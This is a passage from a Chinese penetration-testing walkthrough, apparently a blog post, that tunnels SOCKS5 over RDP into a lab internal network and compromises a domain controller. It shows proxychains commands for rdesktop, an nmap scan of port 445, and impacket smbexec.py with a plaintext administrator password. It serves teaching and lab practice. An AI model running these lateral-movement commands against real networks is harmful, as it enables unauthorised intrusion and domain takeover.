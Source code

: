 此时便成功搭建了一个 SOCKS5 代理隧道，查看攻击机 Windows 10 的端口连接状态发现已经建立连接：

![](https://gitee.com/fuli009/images/raw/master/public/20210826091348.png)image-20210805173743464

然后在攻击机 Kali 上配置好 proxychains：

![]()image-20210805184447817

此时便可以通过代理访问到内网的主机 DC 了。如下所示，成功打开了 DC 的远程桌面：

    
    
    proxychains4 rdesktop 192.168.93.30

![](https://gitee.com/fuli009/images/raw/master/public/20210826091350.png)image-20210805184342519

探测内网主机 DC 的端口开放情况：

    
    
    proxychains4 nmap -sT -Pn 192.168.93.30 -p 445

![](https://gitee.com/fuli009/images/raw/master/public/20210826091352.png)image-20210805185347989

先该主机开启了 445 端口，我们可以直接用 smbexec.py 连接：

    
    
    proxychains4 python3 smbexec.py whoamianony/administrator:Whoami2021@192.168.93.30

![](https://gitee.com/fuli009/images/raw/master/public/20210826091353.png)image-20210805190126459

如上图所示，成功拿下内网主机 DC。

  

文中若有不当之处，还请各位大佬师傅们多多点评。

> 参考：
>
> https://github.com/nccgroup/SocksOverRDP

  

**![](https://gitee.com/fuli009/images/raw/master/public/20210826091354.png)**

  

 **推荐阅读：**

  

[
**内网渗透｜获取远程桌面连接记录与RDP凭据**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498865&idx=1&sn=ffbc46a21eeefa69862acc3d0d36afe7&chksm=ec1ca94edb6b20583bf5df5c5d62e43dc2a86e924c1aae58f434e49f677b310c58a0843af370&scene=21#wechat_redirect)  

  

[ **内网渗透｜基于文件传输的 RDP
反向攻击**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498826&idx=1&sn=0ea380bf43e25f5a4e8ad4c20451226a&chksm=ec1ca975db6b2063cc5b9191f3841cdc1f7e57088169932ee4e61e55f046737cee76a648da76&scene=21#wechat_redirect)  
